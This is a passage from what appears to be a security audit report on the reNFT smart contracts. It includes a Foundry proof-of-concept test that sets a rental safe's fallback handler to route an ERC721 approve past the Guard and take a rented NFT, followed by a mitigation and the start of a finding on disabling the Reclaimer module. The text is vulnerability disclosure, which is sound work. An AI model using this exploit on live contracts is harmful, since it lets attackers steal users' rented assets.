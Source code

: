 ```solidity
            safe,
            alice.privateKey,
            safe,
            setFallbackHandlerCalldata
        );
        SafeUtils.executeTransaction(
            safe,
            safe,
            setFallbackHandlerCalldata,
            transactionSignature
        );

        // Send approveCalldata directly to safe - this will forward the call to token
        // The EVM will ignore the extra data appended in the fallback function
        (bool success,) = safe.call(approveCalldata);
        require(success, "Execution reverted");

        // Bob can steal the rented ERC721 from Alice's safe
        vm.prank(bob.addr);
        erc721s[0].transferFrom(safe, bob.addr, 0);
    }
```
To run the exploit test:
- Add the test to the `CheckTransaction.t.sol` file and run it using the command `forge test --mt test_Vuln_Bypass_CheckTransaction_ERC721_Approve`. This will run the test above, which should demonstrate the exploit by successfully transferring the rented NFT out of the safe.

### Tools Used
Manual review, Foundry

### Recommended Mitigation Steps
To mitigate this vulnerability, the `Guard` contract should also block the `setFallbackHandler()` function of the Gnosis Safe contract. This can be done by adding a check for the `setFallbackHandler()` function selector in the `checkTransaction()` function of the `Guard` contract and reverting the transaction if the function selector matches. This will prevent an attacker from setting the fallback handler of a rental safe to an ERC721 token contract and calling the `approve()` function through the fallback function.

## [H-03] Lender can disable Reclaimer module, locking all rented assets in safe

### Lines of code

[RentalConstants.sol#L62](https://github.com/re-nft/smart-contracts/blob/3ddd32455a849c3c6dc3c3aad7a33a6c9b44c291/src/libraries/RentalConstants.sol#L62)  
[Guard.sol#L255-L267](https://github.com/re-nft/smart-contracts/blob/3ddd32455a849c3c6dc3c3aad7a33a6c9b44c291/src/policies/Guard.sol#L255-L267)

### Impact
The `Guard.sol` contract in the reNFT protocol is responsible for checking transactions initiated by a rental safe to decide whether they can be allowed or not. One of the functionalities it does allow is the ability to enable and disable whitelisted modules in the safe. From the sponsor:
> the idea is that later on we will work with protocols that want to have a better integration with our rental safes.
> By using whitelisted modules, we could implement custom functionality for that protocol which our users could opt into. 
